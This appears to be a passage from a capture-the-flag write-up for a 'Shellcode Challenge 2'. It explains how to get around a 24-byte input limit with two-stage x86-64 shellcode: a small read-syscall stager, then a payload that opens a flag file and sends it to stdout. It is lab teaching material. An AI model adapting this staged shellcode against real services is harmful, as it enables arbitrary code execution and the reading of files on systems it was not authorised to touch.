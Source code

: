 ```python

```

Here's the solution already implemented in 'boilerplate.py'


## Solution: Shellcode Challenge 2

First thing we do is, like the previous challenge, edit the boilerplate file with the new port and navigate to the target and observing the webpage, we can see that the flag is in the same location but that "This challenge reads in much fewer bytes." and this statement is reinforced by another line that states the following: "Reading 0x18 bytes from stdin.".

This means that only 24 bytes (0x18 = 24) worth of instructions will be read from standard input, this means that our previous shellcode won't work anymore since the target will only allow execute the first 24 bytes worth of information. In order to overcome this issue we create a `multi stage shellcode`, this type of shellcode consists in sending multiple shellcodes during the same connection; in our case we will use two shellcodes.

```asm
.intel_syntax noprefix
.global _start

_start:

push 0
push 0
pop rdi
lea rsi, [rip+9]
mov rdx, 250
pop rax

syscall
```

This code will allow us to use sys.read() in order to receive instruction from stdin, effectively bypassing the 24 bytes restriction imposed by the challenge.
sys.read() requires three arguments: a file descriptor, a buffer and a size value.
Being 0 the file descriptor for stdin and the value needed to invoke the syscall, we push two zeros on the stack.

We load the memory address which will point to the end of our shellcode in rsi and specify 250 expected bytes. We then invoke the kernel to execute sys.read().

```asm
.global _start
.intel_syntax noprefix

_start:

open:
lea rdi, [rip+flag]
xor rsi, rsi
xor rdx, rdx
mov rax, 2
syscall

sendfile:
mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 60
mov rax, 40
syscall

exit:
```